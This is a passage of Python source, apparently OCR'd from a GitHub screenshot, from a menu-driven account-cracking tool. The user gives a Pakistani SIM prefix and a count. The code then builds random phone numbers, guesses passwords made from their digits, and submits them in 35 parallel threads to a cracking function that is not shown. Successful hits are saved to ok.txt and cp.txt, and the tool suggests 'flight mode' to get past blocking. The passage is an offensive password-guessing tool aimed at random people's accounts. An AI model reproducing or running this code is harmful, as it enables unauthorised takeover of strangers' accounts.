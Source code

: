 	loop+=1
def rifat1():
	os.system('clear')
	print(logo)
	print('\x1b[1;97m[1] Pak Random Method \x1b[1;92m[1]')
	print('\x1b[1;97m[2] Pak Random Method \x1b[1;92m[2]')
	print('\x1b[1;97m[3] Pak Random Method \x1b[1;92m[3]')
	print('\x1b[1;97m[4] Pak Random Method \x1b[1;92m[4]')
	print('\x1b[1;97m[5] Pak Random Method \x1b[1;92m[5]')
	print('\x1b[1;97m[6] Pak Random Method \x1b[1;92m[6]')
	print('\x1b[1;91m[7] Go to main menu')
	linex()
	opt = input('[√] SELECT OPT: ')
	if opt =='1':
		random_number1()
	elif opt =='2':
		random_number2()
	elif opt =='3':
		random_number3()
	elif opt =='4':
		random_number4()
	if opt =='5':
		random_number5()
	if opt =='6':
		random_number6()
	
	else:
		print('\n\033[1;31mChoose valid option\033[0;97m')
		menu()
#____
def random_number1():
	uid=[]
	os.system('clear')
	print(logo)
	print('[√] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print(' Example : 1000,5000,10000,****Etc')
	linex()
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode]
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[✓] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#____